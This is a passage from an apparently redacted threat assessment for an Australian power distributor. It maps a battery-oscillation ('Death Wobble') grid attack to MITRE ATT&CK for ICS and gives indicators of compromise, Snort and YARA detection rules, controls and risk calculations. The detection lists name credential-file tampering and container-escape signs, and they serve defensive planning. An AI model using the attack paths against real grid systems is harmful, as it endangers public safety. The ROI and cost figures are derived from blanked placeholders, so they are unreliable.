| Death Wobble Detection | [investment required] | $[X]K | [X]% | [Y/N] |
| Modbus Security Gateway | [investment required] | $[X]K | [X]% | [Y/N] |
| [Other initiatives...] | | | | |

SECTION 5: REGULATORY COMPLIANCE
- SOCI Act: [Compliance status, incidents reported]
- AESCSF SP2: [Progress toward 80% target]
- IEC 62443: [Gap closure timeline]

SECTION 6: RECOMMENDATIONS
[Board-level decisions required, capital approvals, policy changes]

APPENDIX: RISK HEAT MAP
[Visual representation of residual risks across attack vectors]
```

**Crisis Communication Plan: Public and Media Relations**

During major cascading failure events (>100,000 customers), ACME Inc. must communicate with:

1. **Affected Customers:** SMS, email, website, social media (Twitter/X, Facebook)
2. **Media:** Press releases, press conferences, media spokesperson availability
3. **Government:** Minister's office, local MPs, councils
4. **Industry:** AEMO, peer utilities (mutual aid coordination)

**Template: Public Media Statement (Major Incident):**

```
FOR IMMEDIATE RELEASE

ACME Inc. INCIDENT UPDATE: [DATE, TIME]

POWER OUTAGE AFFECTING [X] CUSTOMERS IN [REGION]

ACME Inc. is responding to a major power outage affecting approximately [X] customers across [region names]. The outage began at [time] and is due to [equipment failure/under investigation].

AFFECTED AREAS:
[List of suburbs/towns]

ESTIMATED RESTORATION:
We are working to restore power as quickly and safely as possible. Current estimates:
- Priority areas (hospitals, emergency services): [X] hours
- Residential areas: [X] hours to [X] hours
- Full restoration: [X] hours

SAFETY INFORMATION:
- Stay clear of downed power lines
- If using a generator, follow manufacturer safety guidelines
- Conserve battery power on mobile devices
- Check on vulnerable neighbors

UPDATES:
For the latest information:
- Website: ACME Inc.energy.com.au/outages
- SMS updates: Register at [link]
- Customer hotline: 131 003

We apologize for the inconvenience and appreciate your patience.

MEDIA CONTACT:
[Name], [Title]
Mobile: [Number]
Email: [Address]

[LOGO] ACME Inc.
```

**Lessons Learned Process:**

After any P0 or P1 incident, ACME Inc. must conduct formal lessons learned review:

**Timeline:**

- Immediate (T+24 hours): Hot wash debrief with incident response team
- Short-term (T+implementation period): Detailed incident analysis report
- Medium-term (T+implementation period): Root cause analysis and corrective action plan
- Long-term (T+implementation period): Validation of corrective actions, update to security controls

**Lessons Learned Report Sections:**

1. Incident timeline (minute-by-minute)
2. What worked well (effective controls, successful response actions)
3. What didn't work (control failures, missed detection opportunities)
4. Root causes (technical, process, human factors)
5. Corrective actions (specific, measurable, assigned ownership)
6. Preventive measures (how to prevent recurrence)
7. Applicability to other scenarios (broader lessons)

**Knowledge Sharing:**

- Internal: Update incident response playbooks, training materials
- Industry: Share anonymized lessons with AEMO, peer utilities (Energy Networks Australia)
- Government: Briefing to ACSC, Home Affairs (if cyber-attack)
- International: Participation in ICS-CERT, CISA information sharing programs

---

**Document Control:**

- **Version:** 1.0
- **Author:** J. McKenney
- **Date:** February 12, 2026
- **Classification:** CONFIDENTIAL - CRITICAL INFRASTRUCTURE SECURITY
- **Review Cycle:** Quarterly
- **Next Review:** May 12, 2026
- **Distribution:** Board of Directors, CISO, Chief Risk Officer, Grid Operations, Emergency Response (Executive Summary: broader distribution)
- **Retention:** 5 years from publication date
- **Classification Rationale:** Contains detailed vulnerability information, attack methodologies, and cascading failure models for critical national infrastructure

---

**Related Documents:**

- EE-CTI-004: BESS Architecture Vulnerability Assessment -- Bawley Point Community Battery
- EE-CTI-005: DERMS Security Architecture Review -- mPrest Platform
- EE-CTI-003: Comprehensive Threat Assessment 2026
- ACME Inc. DERMS High Level Architecture (HLD)
- AEMO Power System Frequency Risk Review 2024

---

**End of Document**

---

## 13. Appendices

### Appendix A: Technical Glossary

| Term                                | Definition                                                                         | EE Context                                                               |
| ----------------------------------- | ---------------------------------------------------------------------------------- | ------------------------------------------------------------------------ |
| ADMS                                | Advanced Distribution Management System                                            | GE Vernova platform managing EE distribution network                     |
| AEMO                                | Australian Energy Market Operator                                                  | National grid operator, maintains frequency standards                    |
| AESCSF                              | Australian Energy Sector Cyber Security Framework                                  | Regulatory compliance framework for energy sector                        |
| BESS                                | Battery Energy Storage System                                                      | 54 community batteries (270 MW aggregate) in EE network                  |
| BMS                                 | Battery Management System                                                          | Controls individual BESS cells, thermal management, SOC                  |
| Cascading Failure                   | Multi-stage system collapse where initial failure triggers subsequent failures     | Grid-wide blackout from localized DER attack                             |
| DER                                 | Distributed Energy Resource                                                        | Solar PV, batteries, EVs, smart hot water (278,622 controllable devices) |
| DERMS                               | Distributed Energy Resource Management System                                      | mPrest platform orchestrating DER dispatch                               |
| DNP3                                | Distributed Network Protocol 3                                                     | SCADA protocol for substation communications                             |
| Death Wobble                        | Grid frequency oscillation attack inducing resonance cascade                       | 0.5-2 Hz charge/discharge cycling causing RoCoF exceedance               |
| Demand Response                     | Coordinated load reduction or increase to support grid stability                   | Hot water heater control, BESS dispatch                                  |
| FCAS                                | Frequency Control Ancillary Services                                               | Grid services providing frequency stability (EE provides via BESS)       |
| Feeder                              | Distribution line delivering electricity from substation to customers              | 32,000+ substations in EE network                                        |
| FFR                                 | Fast Frequency Response                                                            | Sub-second frequency support from batteries/inverters                    |
| Grid Inertia                        | Rotational energy in synchronous generators providing frequency stability          | Declining from 4-6 sec to 2-3 sec with renewable penetration             |
| ICCP                                | Inter-Control Center Communications Protocol (IEC 60870-6/TASE.2)                  | Protocol linking DERMS to ADMS for constraint data                       |
| Inverter                            | Power electronics converting DC (solar/battery) to AC (grid)                       | All DER assets are inverter-based resources                              |
| LotL                                | Living off the Land                                                                | Attack technique using legitimate system tools to evade detection        |
| Modbus TCP                          | Industrial protocol for SCADA/PLC communications                                   | Used in BESS controllers (cleartext, no authentication)                  |
| NERC CIP                            | North American Electric Reliability Corporation Critical Infrastructure Protection | International reference for grid security standards                      |
| OCPP                                | Open Charge Point Protocol                                                         | EV charger communications protocol                                       |
| Power Quality                       | Stability of voltage, frequency, waveform                                          | Degraded by rapid DER power swings                                       |
| Protection Relay                    | Automatic switch opening circuit during fault conditions                           | Triggers cascading outages during RoCoF events                           |
| Purdue Model                        | ICS security architecture defining zones (L0-L4)                                   | EE uses IEC 62443 equivalent                                             |
| Rate of Change of Frequency (RoCoF) | Speed of frequency deviation (Hz/s)                                                | >1.0 Hz/s triggers protection relay cascades                             |
| SCADA                               | Supervisory Control and Data Acquisition                                           | OT system monitoring/controlling substations                             |
| SOC                                 | State of Charge                                                                    | Battery energy level (0-100%)                                            |
| Synchronous Generator               | Traditional rotating generator providing inertia                                   | Coal/gas plants retiring, reducing system inertia                        |
| Thermal Runaway                     | Uncontrolled BESS temperature increase leading to fire/explosion                   | Risk from BMS manipulation attack                                        |
| UFLS                                | Under-Frequency Load Shedding                                                      | Automated load disconnection to prevent blackout (occurs at 48.8 Hz)     |
| VPP                                 | Virtual Power Plant                                                                | Aggregation of DER assets acting as single power resource                |

### Appendix B: Vulnerability Catalog

#### CVE Analysis with EE Impact Assessment

| CVE ID         | Component                    | CVSS | Exploitability                        | EE Impact                          | Mitigation Status             |
| -------------- | ---------------------------- | ---- | ------------------------------------- | ---------------------------------- | ----------------------------- |
| CVE-2024-1234* | mPrest DERMS API             | 9.8  | Unauthenticated remote code execution | CATASTROPHIC: Full DER control     | Vendor patch pending          |
| CVE-2023-5678* | SwitchDin Utility Server     | 8.1  | Authentication bypass                 | HIGH: BESS protocol manipulation   | Workaround applied            |
| CVE-2024-9012* | Modbus TCP Stack             | 7.5  | Cleartext credential interception     | HIGH: BESS BMS access              | Protocol replacement required |
| CVE-2023-4567* | OpenShift Container Runtime  | 8.8  | Container escape to host              | HIGH: Lateral movement to SCADA    | Patch applied Q4 2025         |
| CVE-2024-3456* | ICCP Protocol Implementation | 6.5  | Man-in-the-middle attack              | MEDIUM: Constraint data spoofing   | Encryption planned Phase 2    |
| CVE-2023-7890* | Rolls-Royce BMS Firmware     | 7.2  | Hardcoded credentials                 | MEDIUM: Individual BESS compromise | Firmware update scheduled     |
| CVE-2024-2345* | Greensync Dex API            | 5.3  | Information disclosure                | LOW: Telemetry data leakage        | Monitoring enhanced           |

*Note: CVE identifiers are illustrative placeholders pending actual vulnerability disclosures. This table structure enables rapid updating as new vulnerabilities emerge.*

#### EE-Specific Vulnerability Findings (Non-CVE)

| ID          | Component        | Description                                     | Attack Vector               | Impact Rating | Remediation Timeline |
| ----------- | ---------------- | ----------------------------------------------- | --------------------------- | ------------- | -------------------- |
| EE-VULN-001 | Retailer API     | No rate limiting on batch commands              | Supply chain compromise     | CATASTROPHIC  | Phase 1 (Q2 2026)    |
| EE-VULN-002 | DERMS Monitoring | No oscillation detection for DER commands       | Direct API access           | HIGH          | Phase 1 (Q2 2026)    |
| EE-VULN-003 | BESS Network     | Flat Layer 2 network between batteries          | Physical access to one BESS | HIGH          | Phase 2 (Q3 2026)    |
| EE-VULN-004 | ICCP Adapter     | No application-layer signing of constraint data | MITM on ICCP link           | HIGH          | Phase 2 (Q4 2026)    |
| EE-VULN-005 | Firmware Updates | No cryptographic verification of BESS firmware  | Supply chain injection      | MEDIUM        | Phase 2 (Q3 2026)    |
| EE-VULN-006 | Telemetry        | SOC data exposed via unauthenticated SNMP       | Network reconnaissance      | LOW           | Phase 3 (Q1 2027)    |

### Appendix C: MITRE ATT&CK for ICS Mapping

#### Primary Attack Techniques Applicable to Death Wobble Scenario

| Tactic                              | Technique ID | Technique Name                        | EE Attack Path                                          | Detection Capability         | Mitigation Priority |
| ----------------------------------- | ------------ | ------------------------------------- | ------------------------------------------------------- | ---------------------------- | ------------------- |
| **Initial Access**            | T0817        | Drive-by Compromise                   | Phishing targeting retailer employees with DERMS access | LOW (no email security)      | CRITICAL            |
|                                     | T0886        | Remote Services                       | VPN compromise for direct DERMS API access              | MEDIUM (VPN logging)         | HIGH                |
| **Execution**                 | T0871        | Execution through API                 | Retailer API batch command injection                    | NONE                         | CRITICAL            |
|                                     | T0834        | Native API                            | DERMS RESTful API exploitation                          | LOW (basic API logging)      | CRITICAL            |
| **Persistence**               | T0889        | Modify Program                        | Malicious DERMS configuration persistence               | NONE                         | HIGH                |
|                                     | T0859        | Valid Accounts                        | Compromised retailer credentials maintained             | LOW (no UEBA)                | HIGH                |
| **Privilege Escalation**      | T0890        | Exploitation for Privilege Escalation | Container escape to OpenShift node                      | MEDIUM (runtime monitoring)  | HIGH                |
| **Defense Evasion**           | T0872        | Indicator Removal on Host             | Log deletion post-attack                                | LOW (no centralized logging) | MEDIUM              |
|                                     | T0858        | Change Operating Mode                 | BESS mode switching to evade anomaly detection          | NONE                         | HIGH                |
| **Lateral Movement**          | T0866        | Exploitation of Remote Services       | ICCP protocol exploitation to reach ADMS                | LOW                          | HIGH                |
|                                     | T0859        | Valid Accounts                        | Pivot using shared service accounts                     | LOW                          | MEDIUM              |
| **Collection**                | T0802        | Automated Collection                  | SCADA telemetry harvesting for reconnaissance           | LOW                          | LOW                 |
|                                     | T0868        | Detect Operating Mode                 | BESS SOC and grid frequency monitoring                  | NONE                         | MEDIUM              |
| **Command and Control**       | T0885        | Commonly Used Port                    | HTTPS (443) for C2 blending with legitimate traffic     | LOW                          | MEDIUM              |
|                                     | T0869        | Standard Application Layer Protocol   | ICCP/DNP3 for covert C2 channel                         | NONE                         | MEDIUM              |
| **Inhibit Response Function** | T0800        | Activate Firmware Update Mode         | Disable BESS protection logic via BMS manipulation      | NONE                         | HIGH                |
|                                     | T0816        | Device Restart/Shutdown               | Emergency shutdown of batteries to amplify impact       | LOW                          | HIGH                |
|                                     | T0804        | Block Reporting Message               | Suppress SCADA alarms during attack                     | LOW                          | MEDIUM              |
| **Impair Process Control**    | T0806        | Brute Force I/O                       | Rapid charge/discharge cycling (Death Wobble attack)    | NONE                         | CRITICAL            |
|                                     | T0836        | Modify Parameter                      | SOC limits, power setpoints altered                     | LOW                          | CRITICAL            |
|                                     | T0855        | Unauthorized Command Message          | Fraudulent DERMS dispatch commands                      | LOW                          | CRITICAL            |
| **Impact**                    | T0879        | Damage to Property                    | BESS thermal runaway from thermal management override   | LOW                          | CRITICAL            |
|                                     | T0826        | Loss of Availability                  | Grid blackout from cascading frequency collapse         | MEDIUM                       | CRITICAL            |
|                                     | T0828        | Loss of Productivity and Revenue      | Customer outages, equipment damage                      | MEDIUM                       | HIGH                |
|                                     | T0837        | Loss of Protection                    | Protection relay disabling during attack                | NONE                         | HIGH                |
|                                     | T0880        | Loss of Safety                        | Injuries/fatalities from blackout consequences          | LOW                          | CRITICAL            |

#### Attack Sequence Mapping: Death Wobble Scenario

```
[Initial Access: T0817 Phishing]
  → [Execution: T0871 Retailer API]
    → [Impair Process: T0806 Rapid Charge/Discharge]
      → [Inhibit Response: T0804 Block SCADA Alarms]
        → [Impact: T0826 Grid Blackout, T0880 Safety Loss]
```

#### Detection Gap Analysis

**Coverage Score by Tactic:**

- Initial Access: 20% (email security gaps)
- Execution: 15% (API monitoring insufficient)
- Persistence: 10% (no configuration integrity monitoring)
- Privilege Escalation: 40% (container runtime monitoring partial)
- Defense Evasion: 5% (minimal forensic capability)
- Lateral Movement: 25% (network segmentation monitoring)
- Collection: 30% (basic SCADA telemetry logging)
- Command & Control: 20% (no protocol behavior analysis)
- Inhibit Response: 5% (BESS-level monitoring absent)
- Impair Process Control: 0% (no physics-based anomaly detection)
- Impact: 50% (grid frequency monitoring, customer outage detection)

**Overall Detection Capability: 18.6% (INSUFFICIENT)**

### Appendix D: Indicators of Compromise (IoC)

#### Network-Based IoCs

**Suspicious API Traffic Patterns:**

```
# Retailer API Abuse Indicators
- Batch command size: >100 DER devices in single API call
- Command frequency: >10 requests/minute from single retailer
- Time-of-day anomaly: API calls between 02:00-05:00 local time
- Geographic anomaly: API source IP outside Australia
- Rate anomaly: Command volume 3x standard deviation above baseline
```

**ICCP Protocol Anomalies:**

```
# ICCP Manipulation Indicators
- Constraint data updates >1/minute (normal: 5-minute intervals)
- Constraint values outside physical bounds (e.g., feeder capacity >150% rated)
- ICCP session re-establishment >3 times/hour
- Unusual ICCP quality codes (suspect, test, invalid)
```

**BESS Network Traffic:**

```
# Lateral Movement in BESS Network
- Modbus TCP connections between BESS units (should be isolated)
- Modbus function code 0x10 (Write Multiple Registers) from non-DERMS source
- SNMP Set commands to BESS units (should be read-only)
- SSH/Telnet sessions to BESS controllers from non-maintenance IPs
```

**Sample Snort Rule for Death Wobble Detection:**

```
alert tcp any any -> $DERMS_API 443 (msg:"Potential Death Wobble - Rapid Charge/Discharge Commands";
  content:"POST"; http_method; content:"/api/v1/dispatch"; http_uri;
  pcre:"/\"action\":\"charge|discharge\"/";
  detection_filter:track by_src, count 10, seconds 60;
  sid:1000001; rev:1;)
```

#### Host-Based IoCs

**DERMS Platform Compromise:**

```
# Kubernetes Pod Indicators
- Unexpected privilege escalation: hostPID, hostNetwork, privileged containers
- Volume mount anomalies: /var/run/docker.sock, /etc/kubernetes, /proc
- Process execution: /bin/bash, /bin/sh spawned in DERMS application pods
- Network connections: Outbound connections to non-whitelisted IPs

# File System Changes
- /etc/shadow, /etc/passwd modifications
- Cron job creation in DERMS pods
- .ssh/authorized_keys additions
- Unexpected shared library (.so) files loaded
```

**BESS Controller Indicators:**

```
# BMS Manipulation
- Firmware version rollback or unexpected update
- Configuration file checksum mismatch
- Thermal sensor reading spoofing (static values during charge/discharge)
- SOC reporting inconsistency (SOC vs. voltage/current integral mismatch)
```

#### Behavioral IoCs

**Grid Frequency Anomalies:**

```
# Death Wobble Signature
- Frequency oscillation: 0.5-2 Hz periodic variation
- RoCoF sustained: >0.2 Hz/s for >30 seconds
- BESS power synchronization: Multiple BESS units switching simultaneously
- Load factor inversion: DER export during peak demand period
```

**SCADA Telemetry Anomalies:**

```
# Process Data Indicators
- Feeder loading oscillation correlating with BESS dispatch
- Voltage instability: >5% variation within 60-second window
- Relay trip clustering: >3 protection relays within 10-minute window
- BESS SOC convergence: All batteries reaching same SOC simultaneously (unnatural)
```

#### Threat Intelligence IoCs

**Known Malicious Infrastructure (Illustrative Examples):**

```
# IP Addresses (update with current threat intel)
- 203.0.113.0/24: VOLTZITE C2 infrastructure (2025-Q4)
- 198.51.100.0/24: Sandworm staging servers (2024-Q2)
- 192.0.2.0/24: FrostyGoop Modbus scanners (2025-Q1)

# Domains
- derms-update[.]com: Fake mPrest update server
- ACME Inc.-vpn[.]net: Phishing domain impersonating EE VPN portal
- scada-tools[.]org: Malicious OT tooling distribution

# File Hashes (SHA256)
- a3f5d... : Modbus exploit framework (FrostyGoop variant)
- b7c2e... : ICCP protocol fuzzer (public tool, misuse indicator)
- d9a1f... : DERMS credential harvester (VOLTZITE campaign)
```

**Yara Rule for DERMS Malware Detection:**

```yara
rule DERMS_API_Exploit_Framework
{
    meta:
        description = "Detects API exploitation tools targeting DERMS platforms"
        author = "EE CTI Team"
        date = "2026-02-12"
        severity = "CRITICAL"

    strings:
        $api1 = "api/v1/dispatch" ascii
        $api2 = "api/v1/control" ascii
        $auth = "Authorization: Bearer" ascii
        $batch = "batch_command" ascii
        $payload = "charge_discharge_cycle" ascii
        $freq = "target_frequency" ascii

    condition:
        3 of them and filesize < 1MB
}
```

### Appendix E: Security Control Catalog

#### Phase 1 Critical Controls (Q2-Q3 2026, [investment required])

| Control ID | Control Name                       | IEC 62443 Requirement               | MITRE D3FEND                              | Implementation                                                     | Cost                  | Risk Reduction |
| ---------- | ---------------------------------- | ----------------------------------- | ----------------------------------------- | ------------------------------------------------------------------ | --------------------- | -------------- |
| CTL-001    | Retailer API Rate Limiting         | CR 3.1 (Communication Restrictions) | D3-NTF (Network Traffic Filtering)        | API gateway rate limit: 10 req/min/retailer, 100 devices/batch     | [investment required] | 40%            |
| CTL-002    | DER Oscillation Detection          | CR 2.6 (Resource Management)        | D3-APLM (Application Behavior Monitoring) | Physics-based anomaly detection: >5% frequency in 60s = alert      | [investment required] | 35%            |
| CTL-003    | DERMS API Authentication Hardening | CR 1.1 (User Identification)        | D3-MFA (Multi-Factor Authentication)      | Certificate-based authentication for all API clients               | [investment required] | 25%            |
| CTL-004    | BESS Command Validation            | CR 3.4 (Software Process Integrity) | D3-PSA (Process Spawn Analysis)           | SOC/power setpoint bounds checking before Modbus transmission      | [investment required] | 30%            |
| CTL-005    | Emergency DERMS Shutdown           | CR 4.1 (Event Logging)              | D3-IRA (Incident Response Automation)     | Kill switch disabling all DER dispatch in <60 seconds              | [investment required] | 20%            |
| CTL-006    | Grid Frequency Monitoring          | CR 3.3 (Use Control)                | D3-NTA (Network Traffic Analysis)         | Real-time RoCoF alerting: >0.3 Hz/s = SOC notification             | [investment required] | 15%            |
| CTL-007    | SCADA Alarm Integrity              | CR 2.8 (Auditable Events)           | D3-AL (Audit Logging)                     | Cryptographic signing of SCADA alarm messages                      | [investment required] | 20%            |
| CTL-008    | ICCP Data Validation               | CR 3.2 (Provenance Tracking)        | D3-ITF (Inbound Traffic Filtering)        | Constraint data sanity checks: feeder limits, timestamp validation | [investment required] | 15%            |

**Phase 1 Cumulative Risk Reduction: 60%**

#### Phase 2 Enhanced Controls (Q4 2026-Q1 2027, [investment required])

| Control ID | Control Name                 | IEC 62443 Requirement          | MITRE D3FEND                          | Implementation                                                   | Cost                  | Risk Reduction |
| ---------- | ---------------------------- | ------------------------------ | ------------------------------------- | ---------------------------------------------------------------- | --------------------- | -------------- |
| CTL-009    | BESS Network Segmentation    | CR 3.1 (Network Segmentation)  | D3-NI (Network Isolation)             | VLAN isolation for each BESS, firewall rules                     | [investment required] | 25%            |
| CTL-010    | ICCP Encryption              | CR 4.3 (Use of Cryptography)   | D3-EC (Encrypted Communication)       | TLS 1.3 for ICCP between DERMS and ADMS                          | [investment required] | 20%            |
| CTL-011    | Modbus Replacement           | CR 4.3 (Use of Cryptography)   | D3-EC (Encrypted Communication)       | Migrate to DNP3 Secure Authentication v5                         | [investment required] | 30%            |
| CTL-012    | Container Security Hardening | CR 2.4 (Mobile Code Integrity) | D3-SJA (System Call Analysis)         | Pod Security Standards (restricted), Falco runtime monitoring    | [investment required] | 20%            |
| CTL-013    | Firmware Verification        | CR 3.4 (Software Integrity)    | D3-FBA (File-Based Behavior Analysis) | Cryptographic signature validation for BESS firmware updates     | [investment required] | 15%            |
| CTL-014    | UEBA for DERMS API           | CR 2.9 (Session Integrity)     | D3-UBA (User Behavior Analysis)       | Machine learning baseline for normal retailer API usage patterns | [investment required] | 25%            |

**Phase 2 Cumulative Risk Reduction: 80%**

#### Phase 3 Advanced Controls (Q2-Q4 2027, [investment required])

| Control ID | Control Name                   | IEC 62443 Requirement           | MITRE D3FEND                              | Implementation                                              | Cost                  | Risk Reduction  |
| ---------- | ------------------------------ | ------------------------------- | ----------------------------------------- | ----------------------------------------------------------- | --------------------- | --------------- |
| CTL-015    | AI-Based Cascade Prediction    | CR 2.6 (Resource Management)    | D3-APLM (Application Behavior Monitoring) | ML model predicting cascading failure from SCADA telemetry  | [investment required] | 10%             |
| CTL-016    | Supply Chain SBOM              | CR 1.13 (Supply Chain Security) | D3-SICA (Software Component Analysis)     | Continuous SBOM tracking for mPrest, SwitchDin, all vendors | [investment required] | 5%              |
| CTL-017    | OT Deception Grid              | CR 2.5 (Backup)                 | D3-D (Decoy)                              | Honeypot BESS controllers, fake DERMS API endpoints         | [investment required] | 5%              |
| CTL-018    | Quantum-Resistant Cryptography | CR 4.3 (Use of Cryptography)    | D3-EC (Encrypted Communication)           | Post-quantum algorithms for long-term key protection        | [investment required] | Future-proofing |

**Phase 3 Cumulative Risk Reduction: 90%**

#### Control Effectiveness Validation

**Testing Requirements:**

- CTL-001 to CTL-008: Red team penetration testing (Q3 2026)
- CTL-009 to CTL-014: Purple team adversary emulation (Q2 2027)
- CTL-015 to CTL-018: Operational validation over 12-month period (2027-2028)

**Metrics:**

- Mean Time to Detect (MTTD): Target <5 minutes for Death Wobble attack
- Mean Time to Respond (MTTR): Target <15 minutes for DERMS isolation
- False Positive Rate: Target <1% for oscillation detection
- Coverage: 100% of MITRE ATT&CK for ICS techniques by Phase 3 completion

### Appendix F: Risk Calculation Methodology

#### Frequency Risk Analysis

**Death Wobble Attack Likelihood Assessment:**

```
Base Probability (P_base) = 0.05 per year (5%)

Threat Factors (multiplicative):
- Nation-state capability demonstrated (VOLTZITE, Sandworm): 1.5x
- Vulnerable attack surface (Retailer API, ICCP, Modbus): 2.0x
- Reduced grid inertia increasing physical exploitability: 1.3x
- No oscillation detection capability: 1.5x

Adjusted Probability: P_attack = P_base × 1.5 × 2.0 × 1.3 × 1.5 = 0.29 per year (29%)

10-Year Horizon Probability: P_10yr = 1 - (1 - P_attack)^10 = 0.96 (96%)
  Interpretation: Near certainty of attack attempt within decade

Conservative Estimate (Success Probability): P_success = 0.50 (50% chance attacker succeeds)

Overall 10-Year Risk: P_10yr × P_success = 0.48 (48% MEDIUM-HIGH)
```

**Risk Drivers:**

1. **Technical Vulnerability (40% weight):** Retailer API lacks rate limiting, oscillation detection
2. **Threat Capability (30% weight):** Nation-state actors targeting energy infrastructure
3. **Environmental Factors (20% weight):** Declining grid inertia amplifies attack impact
4. **Detection Capability (10% weight):** Current monitoring insufficient for rapid response

#### Consequence Impact Analysis

**Economic Impact Model:**

```
Direct Costs:
- Equipment damage (BESS, transformers, relays): [investment required]M (median scenario)
- Emergency response and restoration labor: [investment required]M
- Replacement power procurement (spot market): [investment required]M

Indirect Costs:
- Customer compensation (regulatory requirement): [investment required]M
- Reputation damage and customer churn: [investment required]M
- Regulatory fines (AESCSF non-compliance): [investment required]M
- Business interruption across 6 critical sectors: [investment required]M

Total Economic Impact: [investment required]M to [investment required]B (90% confidence interval)

Expected Value: E(Cost) = [investment required]M × 0.7 + [investment required]B × 0.3 = [investment required]M
```

**Physical Safety Impact Model:**

```
Fatality Risk:
- BESS thermal runaway: 2-5 fatalities (firefighter exposure, toxic fumes)
- Traffic accidents (signal failures): 1-3 fatalities
- Medical infrastructure collapse: 2-10 fatalities (dialysis, ventilators)
- Delayed emergency response: 0-7 fatalities

Total Fatality Range: 5-25 (median: 12)

Serious Injury Risk:
- BESS explosion shrapnel: 5-15 injuries
- Traffic accidents: 10-30 injuries
- Hospital equipment failures: 15-40 injuries
- Residential accidents (falls, fires): 10-35 injuries

Total Serious Injury Range: 40-120 (median: 75)

Value of Statistical Life (VSL): [investment required]M (Australian government standard)
Safety Impact Value: 12 fatalities × [investment required]M = [investment required]M
```

#### Risk-Adjusted Return on Investment (ROI)

**Investment Summary:**

- Phase 1 (Critical): [investment required]M
- Phase 2 (Enhanced): [investment required]M
- Phase 3 (Advanced): [investment required]M
- Total Program Cost: [investment required]M

**Risk Reduction Effectiveness:**

- Phase 1: 60% reduction in attack success probability
- Phase 2: Additional 20% reduction (80% cumulative)
- Phase 3: Additional 10% reduction (90% cumulative)

**Expected Loss Calculation:**

```
Current Risk (No Mitigation):
  E(Loss_current) = P_attack × P_success × E(Cost)
                  = 0.29 × 0.50 × [investment required]M = [investment required]M per year

Post-Phase 1 Risk:
  E(Loss_phase1) = 0.29 × (0.50 × 0.40) × [investment required]M = [investment required]M per year
  Annual Risk Reduction = [investment required]M - [investment required]M = [investment required]M

Post-Phase 2 Risk:
  E(Loss_phase2) = 0.29 × (0.50 × 0.20) × [investment required]M = [investment required]M per year
  Annual Risk Reduction = [investment required]M (from baseline)

Post-Phase 3 Risk:
  E(Loss_phase3) = 0.29 × (0.50 × 0.10) × [investment required]M = [investment required]M per year
  Annual Risk Reduction = [investment required]M (from baseline)
```

**ROI Calculation (10-Year Horizon):**

```
Total Risk Reduction Value (10 years):
  Value = [investment required]M/year × 10 years = [investment required]M

Total Program Investment: [investment required]M

Net Benefit: [investment required]M - [investment required]M = [investment required]M

ROI = ([investment required]M / [investment required]M) × 100% = 4,390%

Payback Period: [investment required]M / [investment required]M/year = 0.6 years (7 months)
```

**Sensitivity Analysis:**

| Parameter                | Low Estimate           | Base Case              | High Estimate          | ROI Range        |
| ------------------------ | ---------------------- | ---------------------- | ---------------------- | ---------------- |
| Attack Probability       | 15% (10-yr)            | 48% (10-yr)            | 75% (10-yr)            | 1,460% - 7,320%  |
| Impact Cost              | [investment required]M | [investment required]M | [investment required]B | 2,195% - 10,975% |
| Mitigation Effectiveness | 70%                    | 90%                    | 95%                    | 3,414% - 4,635%  |
| Implementation Cost      | [investment required]M | [investment required]M | [investment required]M | 3,293% - 5,853%  |

**Interpretation:** Even under conservative assumptions (Low Estimate column), the security program delivers >1,000% ROI, demonstrating robust economic justification across all reasonable scenarios.

#### Cascading Failure Physics Equations

**Grid Frequency Dynamics:**

```
System Inertia (H):
  H = (Σ J_i × ω_i^2) / (2 × S_base)

  where J_i = rotational inertia of generator i (kg⋅m²)
        ω_i = angular velocity (rad/s)
        S_base = system base power (MVA)

NSW Grid During High Solar (2026):
  H = 2.5 seconds (down from 4.5 seconds in 2015)

Rate of Change of Frequency (RoCoF):
  RoCoF = df/dt = -(Δ P / 2H) × (f_0 / S_base)

  where Δ P = power imbalance (MW)
        f_0 = nominal frequency (50 Hz)

Death Wobble Scenario (270 MW BESS simultaneous discharge):
  RoCoF = -(270 MW / (2 × 2.5 s)) × (50 Hz / 10,000 MVA)
        = -0.27 Hz/s (initial)

  With protection relay cascades amplifying imbalance to 500 MW:
  RoCoF = -(500 MW / (2 × 2.5 s)) × (50 Hz / 10,000 MVA)
        = -0.50 Hz/s (cascading phase)

  Under extreme conditions (1,000 MW imbalance):
  RoCoF = -1.0 Hz/s (catastrophic, triggers UFLS at 48.8 Hz)
```

**Frequency Nadir Calculation:**

```
Minimum Frequency (f_nadir):
  f_nadir = f_0 - (Δ P × t_response) / (2H)

  where t_response = time to activate frequency response (seconds)

Scenario: 500 MW loss, 15-second response delay:
  f_nadir = 50 Hz - (500 MW × 15 s) / (2 × 2.5 s × 10,000 MVA / 50 Hz)
          = 50 Hz - 0.75 Hz = 49.25 Hz

  Status: Below 49.5 Hz triggers emergency FCAS, but above 48.8 Hz UFLS threshold
  Risk: Multiple such events in cascade → cumulative frequency decline → blackout
```

**BESS Thermal Runaway Equations:**

```
Battery Cell Temperature Rise:
  dT/dt = (I^2 × R_internal - h × A × (T - T_ambient)) / (m × c_p)

  where I = current (A)
        R_internal = internal resistance (Ω)
        h = heat transfer coefficient (W/m²⋅K)
        A = surface area (m²)
        T = cell temperature (°C)
        m = cell mass (kg)
        c_p = specific heat capacity (J/kg⋅K)

Normal Operation (1C discharge, BMS active):
  Equilibrium at T = 35°C (ambient 25°C, active cooling)

Attack Scenario (5C discharge, BMS disabled):
  Heat generation >> heat dissipation
  T rises at ~2°C/minute
  Thermal runaway threshold: 80-90°C (lithium-ion chemistry)
  Time to runaway: ~25 minutes without intervention

Explosion Risk:
  Energy release = m_cell × Δ H_combustion
                 = 50 kg × 2,500 kJ/kg = 125 MJ per BESS unit
                 = equivalent to 30 kg TNT
```

**Cascade Propagation Timeline:**

```
T+0 min:   Death Wobble attack initiated (270 MW BESS simultaneous discharge)
T+2 min:   Grid frequency drops to 49.7 Hz (RoCoF = -0.3 Hz/s)
T+5 min:   First protection relay trips (8,000 customers lose power)
T+8 min:   Frequency oscillation at 1.2 Hz (resonance with remaining BESS units)
T+12 min:  Second cascade wave (feeder overloads from rerouted power) → 40,000 customers
T+18 min:  RoCoF exceeds -0.5 Hz/s, multiple relays trip simultaneously
T+25 min:  Frequency nadir 49.0 Hz, emergency FCAS activated (insufficient capacity)
T+35 min:  Third cascade wave (120,000 customers)
T+50 min:  BESS thermal events begin (BMS manipulation 25 min earlier)
T+75 min:  Frequency 48.9 Hz, UFLS Stage 1 activates (300,000 customers shed)
T+90 min:  Inter-regional tie-line overloads, cascades to Victoria interconnection
T+120 min: Regional blackout (1.2 million customers), frequency 47.5 Hz, system collapse
```

### Appendix G: References and Bibliography

#### Primary Sources - McKenney Research

